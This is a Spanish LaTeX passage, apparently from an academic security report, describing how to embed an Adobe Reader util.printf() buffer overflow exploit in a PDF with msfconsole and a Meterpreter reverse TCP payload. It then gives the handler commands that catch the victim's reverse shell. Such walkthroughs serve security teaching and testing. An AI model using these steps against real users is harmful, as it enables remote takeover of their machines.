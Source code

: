 La primera de ellas, se trata de un \emph{desbordamiento del buffer} (\emph{buffer overflow}) de la pila de funciones de JavaScript con la función \texttt{util.printf()} \autocite{JSStackBufferOverflow}. Para inyectar el código en el archivo PDF se debe ejecutar los siguientes comandos en la consola de \texttt{msfconsole}:

\begin{itemize}
    \item \texttt{use exploit/windows/fileformat/adobe\_utilprintf}
    \item \texttt{set FILENAME <NOMBRE\_DEL\_ARCHIVO>.pdf}
    \item \texttt{set payload windows/meterpreter/reverse\_tcp}
    \item \texttt{set LHOST <IP>}
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

Como se puede ver en los comandos, se está agregando un \emph{payload} que establece una conexión TCP con una computadora que estará esperando tal conexión. De esta forma, al igual que con el ataque a un dispositivo Android, establecemos una \emph{shell reversa}. 

Una vez creado el archivo PDF y abierto en la máquina que será la víctima, se deben realizar los mismos pasos que en el ataque a Android para conectarse con el dispositivo, pero cambiando el \emph{payload} 

\begin{itemize}
    \item \texttt{use exploit/multi/handler} 
    \item \texttt{set payload windows/meterpreter/reverse\_tcp} 
    \item \texttt{set LHOST <IP>} 
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

La segunda vulnerabilidad a experimentar se puede hallar en Metasploit como  \autocite{AdobePDFEmbedded}. Los pasos para inyectarla en un archivo PDF muy similares a los realizados con la anterior.

